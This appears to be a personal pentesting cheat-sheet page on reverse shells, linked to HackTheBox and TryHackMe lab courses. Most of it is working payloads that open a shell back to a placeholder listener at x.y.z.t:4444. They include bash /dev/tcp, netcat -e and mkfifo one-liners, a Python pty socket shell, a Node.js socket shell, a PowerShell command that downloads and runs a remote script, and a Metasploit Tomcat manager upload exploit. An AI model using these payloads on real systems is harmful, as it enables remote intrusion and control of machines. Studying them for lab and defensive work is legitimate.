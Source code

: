 # Reverse shell

[![shells_and_payloads](../../../_badges/htb/shells_and_payloads.svg)](https://academy.hackthebox.com/course/preview/shells--payloads)
[![fileuploadattacks](../../../_badges/htb/fileuploadattacks.svg)](https://academy.hackthebox.com/course/preview/file-upload-attacks)
[![introtoshells](../../../_badges/thmp/introtoshells.svg)](https://tryhackme.com/room/introtoshells)

<div class="row row-cols-lg-2"><div>

When a victim <small>(client)</small> connects to a server <small>(hacker)</small>, we gain access to what we call a 'reverse shell,' allowing us to run commands on the victim and maybe compromise it.

The 'reverse' comes from the fact that the target is the one connecting to use, while with ssh or other remote tools, the client is 'normally' the one initiating the connection. 💥

The hacker will run a listener on their machine and wait for the compromised target to connect back to it, e.g. wait for the target to execute the reverse shell payload 🪲.
</div><div>

You will have to configure the selected reverse shell that you will use to connect back to the listener. For the commands below, we consider the host with the listener IP to be `x.y.z.t`; port `4444` .

If your target is missing a binary, you may be able to download a precompiled version on [andrew-d GitHub](https://github.com/andrew-d/static-binaries/tree/master/binaries) <small>(2.9k ⭐, 2020 🪦)</small>.

**For the listener**, you can use tools listed in [Remote Shell](../index.md#remote-shell-) or a simple instable netcat listener listening on the selected port:

```shell!
$ nc -lvnp 4444 # await the reverse shell payload execution
```
</div></div>

<hr class="sep-both">

## Revshells website

<div class="row row-cols-lg-2"><div>

[revshells](https://www.revshells.com/) is a popular website to create reverse shell payloads, along with generating listener commands.

* Example: "Bash" client

```shell!
$ sh -i >& /dev/tcp/x.y.z.t/4444 0>&1
```

* Example: "nc.exe -e" client

```shell!
PS> nc.exe x.y.z.t 4444 -e sh
```

➡️ Select one based on what command you can run on the target.
</div><div>

Other alternatives are:

* [revshellgen](https://github.com/t0thkr1s/revshellgen) (0.4k ⭐, script)
* [ShellPop](https://github.com/0x00-0x00/ShellPop) (1.4k ⭐, script, 2018/2019)
</div></div>

<hr class="sep-both">

## PHP reverse shell

<div class="row row-cols-lg-2"><div>

You could check out [this script by pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) (1.4k ⭐, 2015). This is a well-known reference.

On Kali Linux, there is local copy in `/usr/share/webshells/php/`.

```bash!
$ cp /usr/share/webshells/php/php-reverse-shell.php /tmp/revshell.php
$ sed -i 's/127.0.0.1/x.y.z.t/' /tmp/revshell.php
$ sed -i 's/1234/4444/' /tmp/revshell.php
```
</div><div>
</div></div>

<hr class="sep-both">

## netcat client

[![introtoshells](../../../_badges/thmp/introtoshells.svg)](https://tryhackme.com/room/introtoshells)

<div class="row row-cols-lg-2"><div>

The most common usage is:

```ps
$ nc -c /bin/bash x.y.z.t 4444
```
</div><div>

Netcat option `-e` is often not available due to security measures.

```ps
$ nc x.y.z.t 4444 -e /bin/bash
```
</div></div>

<hr class="sep-both">

## Linux targets

<div class="row row-cols-lg-2"><div>

#### TCP socket

```shell!
$ /bin/bash -i >& /dev/tcp/x.y.z.t/4444 0>&1
```
</div><div>

#### Named pipe

[![shells_and_payloads](../../../_badges/htb/shells_and_payloads.svg)](https://academy.hackthebox.com/course/preview/shells--payloads)

```shell!
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc x.y.z.t 4444 >/tmp/f
```
</div></div>

<hr class="sep-both">

## Windows targets

<div class="row row-cols-lg-2"><div>

You can try [ConPtyShell](https://github.com/antonioCoco/ConPtyShell) <small>(0.9k ⭐)</small>.

```ps
PS> IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing)
PS> Invoke-ConPtyShell x.y.z.t 4444
```

```ps
$ curl http://$IP:$PORT/revshell.php -o /dev/shm/revshell.php
$ php /dev/shm/revshell.php
$ export RHOST="x.y.z.t";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```
</div><div>

You can try [powercat](https://github.com/besimorhino/powercat) <small>(2.0k ⭐, powershell netcat client/server)</small>
</div></div>

<hr class="sep-both">

## Tomcat Reverse Shell

<div class="row row-cols-lg-2"><div>

You can use [metasploit](/cybersecurity/red-team/tools/frameworks/metasploit/index.md) to both generate a shell and upload it. It doesn't work with at least tomcat 7.8.

```shell!
$ msfconsole -q
msf6> use exploit/multi/http/tomcat_mgr_upload
msf6> set RHOSTS <target>
msf6> set RPORT 8080
msf6> set HttpUsername username
msf6> set HttpPassword password
msf6> set LHOST tun0
msf6> set VERBOSE true # error 500 == it won't work
msf6> run
```
</div><div>

You can use [msfvenom](/cybersecurity/red-team/tools/frameworks/metasploit/msfvenom.md#-some-payloads-) to generate a reverse shell.

You can also create one manually. For the contents of `index.jsp`, you can use metasploit one or [this one which is similar](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/jsp/jsp-reverse.jsp).

```ps
$ nano index.jsp # fill this file
$ jar -cvf ../revshell.war index.jsp  # it works in v7
$ zip -r revshell.war index.jsp       # it works in v7
```
</div></div>

<hr class="sep-both">

## Node.js Reverse Shell

[![pythonplayground](../../../_badges/thm-p/pythonplayground.svg)](https://tryhackme.com/r/room/pythonplayground)

<div class="row row-cols-lg-2"><div>

Given the following shell from [revshells](https://www.revshells.com/):

```js!
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("sh", []);
    var client = new net.Socket();
    client.connect(4444, "x.y.z.t", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```
</div><div>

You can execute it using `node.js reverseshell.js`.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* Python/Mkfifo shells are often more likely to work
* Try double reverse shell?
* [r57shell](https://r57shell.net/)
* [EzpzShell](https://github.com/H0j3n/EzpzShell)
</div><div>
</div></div>